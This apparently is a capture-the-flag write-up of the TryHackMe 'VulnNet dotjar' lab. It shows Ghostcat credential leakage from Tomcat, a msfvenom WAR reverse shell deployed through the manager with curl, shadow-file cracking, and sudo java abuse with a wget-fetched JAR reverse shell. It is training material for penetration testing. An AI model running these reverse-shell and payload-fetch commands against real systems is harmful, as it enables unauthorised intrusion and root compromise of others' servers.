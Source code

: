 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help.

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```
https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp
```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/dotjar2.png)

Finally I ran the python script.

```python
python 48143.py <boxip>
```

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war
```

Then, I uploaded it with curl command as follows

```shell
curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"
```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/dotjar5.png)

After searching a bit we found a backup file of shadow in the /var/backups folder so we copied it to /tmp and gunzipped it to retrieve the shadow file.

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar.png)

Then we cracked the password hash for jdk-admin using john and logged in as jdk-admin

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar2.png)

Now we can view the user flag..

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar3.png)

After doing **sudo -l** we found that we have root permissions to run any java file.

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar4.png)

So we created an exploit using msfvenom 

```shell
msfvenom -p java/shell_reverse_tcp lhost=<local ip> lport=1234 -f jar -o pwn.jar

```
Then i opened a http-server and transferred the payload to the shell using wget 

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar5.png)

```shell
python3 -m http.server 80
wget <local ip>/pwn.jar --output-document=pwn.jar
```
And opened a listening port 1234 in my terminal and ran the .jar file in the shell.Thus we got the root access 

```shell
sudo /usr/bin/java -jar pwn.jar
```
Now we can view the root flag as well!!

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar6.png)




